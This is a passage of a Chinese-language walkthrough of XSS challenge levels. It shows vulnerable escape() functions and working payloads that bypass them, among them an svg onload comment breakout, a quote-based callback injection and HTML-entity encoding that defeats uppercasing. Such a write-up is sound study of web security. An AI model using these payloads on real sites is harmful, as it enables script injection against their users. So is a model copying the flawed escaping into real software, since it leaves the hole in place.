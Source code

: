 注：有一个更短的payload，29字符，但是在该网站上无法生效。
```html
Comment#><svg/onload=alert(1)
```
Output
```html
<!--><svg/onload=alert(1)-->
```
<a name="a007"/></a>
### Callback (14)
```javascript
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
和上一节很相似，输入
```html
aaaa#bbbb
```
第一个字段为`thing[0]`不允许有`a-z A-Z [ ] '`中其他字符出现，第二个字段`json`对字符`\ " <`进行了转义。按照程序的结果，本意应该是构造下面这种形式
Input
```html
Object#bbb
```
Ouput
```html
<script>Object({"userdata":"bbb"})</script>
```
但是注意到一个很奇怪的地方，`thing[0]`可以包含`[ ] '`这些字符，而`JSON.stringify()`不对`'`进行转义。知道这些构造payload的简单多了。
```html
'#'|alert(1)//
```
Output
```html
<script>'({"userdata":"'|alert(1)//"})</script>
```
<a name="a008"/></a>
### Skandia (52)
```javascript
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
`toUpperCase()`函数将小写字符转换为大写字符，`alert()`函数会变成`ALERT()`，无法执行。
可以采用HTML实体编码来绕过，参考<a target="_blank" href="http://www.w3school.com.cn/tags/html_ref_ascii.asp">HTML实体字符</a>，也可以用AAencode绕过，不过太长了
```javascript
</script><iframe/onload=&#97&#108&#101&#114&#116(1)>
```
Output
```html
<script>console.log("</SCRIPT><IFRAME/ONLOAD=&#97&#108&#101&#114&#116(1)>")</script></script>
```
